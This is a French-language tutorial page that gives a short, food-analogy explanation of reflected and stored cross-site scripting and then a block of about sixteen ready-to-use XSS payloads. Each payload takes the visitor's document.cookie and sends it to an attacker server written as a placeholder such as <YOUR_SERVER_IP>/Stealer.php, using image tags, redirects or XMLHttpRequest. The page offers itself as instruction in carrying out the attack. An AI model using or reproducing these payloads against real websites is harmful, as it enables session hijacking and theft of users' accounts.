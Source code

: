 Nous allons faire une faire une attaque xss.

Mais avant tout c'est quoi une XSS :
Imaginez un délicieux gâteau au chocolat, mais avec un ingrédient surprise caché à l'intérieur - du piment !

L'attaque XSS est un peu comme ça. Un individu malveillant glisse du code malveillant (le piment) dans un site web qui semble normal.  Quand on visite le site (on mange le gâteau), notre navigateur exécute ce code sans méfiance, et paf!  Nos informations peuvent être volées ou on peut être redirigé vers un faux site (comme si on avait mal au ventre à cause du piment).

Il existe deux façons courantes de cacher le piment :

XSS réfléchi : L'individu malveillant envoie un lien piégé. Quand on clique dessus, le code malveillant est renvoyé par le site et exécuté par notre navigateur.

XSS stocké : L'individu malveillant injecte le code directement dans le site web, affectant tous les visiteurs.

![img_xss](xss.webp)

```bash
<img src=x onerror=this.src="http://<YOUR_SERVER_IP>/?c="+document.cookie>
<img src=x onerror="location.href='http://<YOUR_SERVER_IP>/?c='+ document.cookie">
<script>new Image().src="http://<IP>/?c="+encodeURI(document.cookie);</script>
<script>new Audio().src="http://<IP>/?c="+escape(document.cookie);</script>
<script>location.href = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>
<script>location = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>
<script>document.location = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>
<script>document.location.href = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>
<script>document.write('<img src="http://<YOUR_SERVER_IP>?c='+document.cookie+'" />')</script>
<script>window.location.assign('http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie)</script>
<script>window['location']['assign']('http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie)</script>
<script>window['location']['href']('http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie)</script>
<script>document.location=["http://<YOUR_SERVER_IP>?c",document.cookie].join()</script>
<script>var i=new Image();i.src="http://<YOUR_SERVER_IP>/?c="+document.cookie</script>
<script>window.location="https://<SERVER_IP>/?c=".concat(document.cookie)</script>
<script>var xhttp=new XMLHttpRequest();xhttp.open("GET", "http://<SERVER_IP>/?c="%2Bdocument.cookie, true);xhttp.send();</script>
```